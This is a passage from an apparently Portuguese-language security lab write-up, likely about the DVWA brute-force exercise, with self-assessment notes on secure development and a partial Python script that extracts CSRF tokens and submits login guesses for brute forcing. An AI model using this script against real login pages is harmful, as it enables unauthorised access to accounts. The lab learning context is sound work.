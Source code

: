 2. **Desenvolvimento Seguro:**
- Posso implementar proteções CSRF eficazes
- Compreendo a importância da segurança em camadas
- Sei balancear segurança e usabilidade

3. **Arquitetura de Segurança:**
- Posso recomendar controles baseado em eficácia comprovada
- Entendo as limitações de diferentes abordagens
- Posso priorizar implementações baseado em risco

## 12. Próximos Passos e Expansão

### Melhorias para Este Projeto

**Script de Automação:**
```python
#!/usr/bin/env python3
"""
Script avançado para teste de brute force com manipulação de CSRF
"""
import requests
from bs4 import BeautifulSoup
import sys

class AdvancedBruteForcer:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        
    def extract_csrf_token(self, html_content):
        """Extrai token CSRF do HTML"""
        soup = BeautifulSoup(html_content, 'html.parser')
        token_input = soup.find('input', {'name': 'user_token'})
        return token_input['value'] if token_input else None
    
    def attempt_login(self, username, password):
        """Tenta login mantendo sessão e tokens"""
        # Primeiro, obtém a página de login
        response = self.session.get(self.target_url)
        csrf_token = self.extract_csrf_token(response.text)
        
        if not csrf_token:
            print("❌ Token CSRF não encontrado")
            return False
            
        # Prepara dados do formulário
        login_data = {
            'username': username,
            'password': password,
            'Login': 'Login',
            'user_token': csrf_token
        }
        
        # Envia requisição de login
        response = self.session.post(self.target_url, data=login_data)
        
        # Verifica se login foi bem-sucedido
        return "Login failed" not in response.text

# Implementação futura...
```
